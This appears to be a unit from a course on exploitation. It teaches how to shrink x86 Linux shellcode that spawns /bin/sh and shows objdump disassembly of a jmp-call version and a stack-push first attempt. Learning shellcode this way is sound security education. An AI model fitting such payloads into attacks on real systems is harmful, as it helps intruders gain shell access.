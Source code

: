 # Unit 4: Shell Code Variations

## Reducing the Size of Shell Code

- See `long_shell.asm`, the shell code we used earlier.
- Let's calculate the size this shellcode by using:

```sh
$ printf `hexconvert bin/longshell` | wc -c
38
```

- The smaller the shell code the better we can use it.

## Using the Stack More Effectively

- If you have a look at `objdump` of the previous shell:

```asm
08049018 <callback>:
 8049018:       e8 e5 ff ff ff          call   8049002 <shell>
 804901d:       2f                      das
 804901e:       62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 8049021:       2f                      das
 8049022:       73 68                   jae    804908c <callback+0x74>
```

- You can notice that `call` instruction takes far to many bytes, it takes 5 bytes!
- Let's try to reduce the size of our shell code.

### Attempt #1

- Let's try to remove jmp-callback labels and push `"/bin/sh"` by ourselves.
- Have a look at `push_shellv1.asm`, then look at `objdump` of it:

```asm
Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    eax,eax
 8049002:       50                      push   eax
 8049003:       6a 68                   push   0x68
 8049005:       6a 73                   push   0x73
 8049007:       6a 2f                   push   0x2f
 8049009:       6a 6e                   push   0x6e
 804900b:       6a 69                   push   0x69
 804900d:       6a 62                   push   0x62
 804900f:       6a 2f                   push   0x2f
 8049011:       89 e6                   mov    esi,esp
 8049013:       31 d2                   xor    edx,edx
 8049015:       52                      push   edx
 8049016:       56                      push   esi
 8049017:       89 e1                   mov    ecx,esp
 8049019:       89 f3                   mov    ebx,esi
 804901b:       b0 0b                   mov    al,0xb
 804901d:       cd 80                   int    0x80
 804901f:       31 db                   xor    ebx,ebx
 8049021:       31 c0                   xor    eax,eax
 8049023:       40                      inc    eax
 8049024:       cd 80                   int    0x80
```
